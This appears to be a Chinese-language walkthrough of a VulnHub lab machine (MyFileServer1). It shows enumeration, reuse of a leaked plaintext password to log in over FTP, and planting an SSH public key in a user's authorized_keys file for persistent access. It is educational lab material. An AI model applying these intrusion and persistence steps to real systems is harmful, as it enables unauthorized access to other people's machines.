 # WBE枚举
扫描目录只扫出来一个readme.txt  页面包含  **My Password is  rootroot1** 
有了密码试一下所有可以登录的服务
上面使用 **enum4Linux -a $ip** 可以扫到一个smbuser用户，试一下登录smb，ftp等服务
成功登录ftp服务
```
ftp> ls -la
229 Entering Extended Passive Mode (|||5744|).
150 Here comes the directory listing.
dr-xr-xr-x   18 0        0            4096 Feb 18  2020 .
dr-xr-xr-x   18 0        0            4096 Feb 18  2020 ..
-rw-r--r--    1 0        0               0 Feb 18  2020 .autorelabel
lrwxrwxrwx    1 0        0               7 Feb 18  2020 bin -> usr/bin
dr-xr-xr-x    4 0        0            4096 Feb 18  2020 boot
drwxr-xr-x   18 0        0            2940 Jul 29 20:09 dev
drwxr-xr-x   86 0        0            8192 Jul 29 20:09 etc
drwxr-xr-x    3 0        0              20 Feb 19  2020 home
lrwxrwxrwx    1 0        0               7 Feb 18  2020 lib -> usr/lib
lrwxrwxrwx    1 0        0               9 Feb 18  2020 lib64 -> usr/lib64
drwxr-xr-x    2 0        0               6 Jun 10  2014 media
drwxr-xr-x    2 0        0               6 Jun 10  2014 mnt
drwxr-xr-x    3 0        0              21 Feb 18  2020 opt
dr-xr-xr-x  177 0        0               0 Jul 29 20:09 proc
drwxr--r--    4 0        0            4096 Feb 20  2020 root
drwxr-xr-x   26 0        0             900 Jul 29 20:09 run
lrwxrwxrwx    1 0        0               8 Feb 18  2020 sbin -> usr/sbin
drwxrwxrwx    8 0        0            4096 Jul 29 20:26 smbdata
drwxr-xr-x    2 0        0               6 Jun 10  2014 srv
dr-xr-xr-x   13 0        0               0 Jul 29 20:09 sys
drwxrwxrwt    8 0        0            4096 Jul 29 21:48 tmp
drwxr-xr-x   13 0        0            4096 Feb 18  2020 usr
drwxr-xr-x   22 0        0            4096 Feb 19  2020 var
226 Directory send OK.
ftp> 
```
已经有了初始访问权限，想登录ssh但是提示不允许密码登录，正好ftp登录上了，上传我的公钥上去
```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/MyFileServer1]
└─$ ssh-keygen -t rsa -b 2048 -f mykey

Generating public/private rsa key pair.
Enter passphrase for "mykey" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in mykey
Your public key has been saved in mykey.pub
The key fingerprint is:
SHA256:g+FdeXXpZJw8CXX3hnDlu1NrZSprMwoxOKhGtauDroc kali@kali
The key's randomart image is:
+---[RSA 2048]----+
|            ..BoO|
|           . + &+|
|    . .   o . = =|
|   . + = . .   o.|
|  . o = S      .+|
| . . . . +     o=|
| oo .   .   . .= |
|E.o.     .  +o. .|
|+o..      .o.o   |
+----[SHA256]-----+
```
先本地生成公钥和私钥，在使用ftp将公钥put上去放到保存未/home/smbuser/.ssh/authorized_keys
再使用本地私钥登录。
